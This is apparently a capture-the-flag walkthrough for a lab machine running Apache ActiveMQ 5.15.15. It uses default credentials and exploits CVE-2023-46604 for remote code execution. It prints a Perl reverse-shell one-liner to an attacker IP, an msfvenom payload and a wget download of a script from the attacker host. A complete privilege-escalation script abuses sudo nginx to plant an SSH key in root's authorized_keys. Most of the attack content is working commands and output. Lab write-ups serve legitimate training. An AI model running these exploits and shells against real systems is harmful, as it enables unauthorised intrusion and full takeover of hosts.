
## Full TCP Port Scan (Aggressive) [58s]

```bash
sudo nmap -Pn -p- -A -T4 10.129.29.124
```

```text
Starting Nmap 7.95 (https://nmap.org) at 2025-04-03 09:57 EDT
Nmap scan report for 10.129.29.124
Host is up (0.042s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
39691/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
Device type: general purpose
Running: Linux 5.X
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   48.45 ms 10.10.16.1
2   24.81 ms 10.129.29.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 57.99 seconds
```

## Enumeration

### Port 80 (HTTP - ActiveMQ)
- Default credentials identified: `admin:admin`
- ActiveMQ version: 5.15.15 (vulnerable to CVE-2023-46604)
- Nikto scan confirmation:
  ```bash
  nikto -h http://10.129.29.124
  ```
  ```text
  + / - Requires Authentication for realm 'ActiveMQRealm'
  + /: Default account found for 'ActiveMQRealm' at (ID 'admin', PW 'admin')
  ```

## Exploitation

### Initial Access via CVE-2023-46604
Using [duck-sec's exploit](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell):
```bash
python3 exploit.py -i 10.129.29.124 -p 61616 -si 10.10.16.27 -sp 80
```
```text
[*] Target: 10.129.29.124:61616
[*] Serving XML at: http://10.10.16.27:80/poc.xml
[Target not responding!]$ whoami
activemq
```

### Reverse Shell Upgrade
Create reverse shell payload:
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.10.16.27 LPORT=1234 -f raw > shell.pl
```

Execute in pseudo-shell:
```text
[Target not responding!]$ perl -e 'use Socket;$i="10.10.16.27";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Catch shell:
```bash
nc -lvnp 1234
```
```text
activemq@broker:/opt/apache-activemq-5.15.15$
```

### User Flag
Located in luis' home:
```bash
activemq@broker:~$ cat /home/luis/user.txt
e7d4d************************
```

## Privilege Escalation

### Sudo Permissions Analysis
```bash
activemq@broker:~$ sudo -l
User activemq may run the following commands on broker:
    (ALL) NOPASSWD: /usr/sbin/nginx
```

### Nginx Configuration Exploit
Exploit script (`exploit.sh`):
```bash
#!/bin/sh
echo "[+] Creating malicious nginx config..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
    worker_connections 768;
}
http {
    server {
        listen 1339;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
EOF

echo "[+] Loading malicious configuration..."
sudo /usr/sbin/nginx -c /tmp/nginx_pwn.conf

echo "[+] Generating SSH key..."
ssh-keygen -t rsa -f id_rsa -N ""

echo "[+] Uploading public key to root's authorized_keys..."
curl -X PUT http://localhost:1339/root/.ssh/authorized_keys -d "$(cat id_rsa.pub)"

echo "[+] SSH access ready. Use: ssh -i id_rsa root@10.129.29.124"
```

Transfer and execute:
```bash
# On attacker machine
python3 -m http.server 8888

# On target
wget http://10.10.16.27:8888/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

### Root Access
Copy private key and connect:
```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.129.29.124
```
```text
Welcome to Ubuntu 22.04.3 LTS
root@broker:~# cat /root/root.txt
cb7c2************************
```

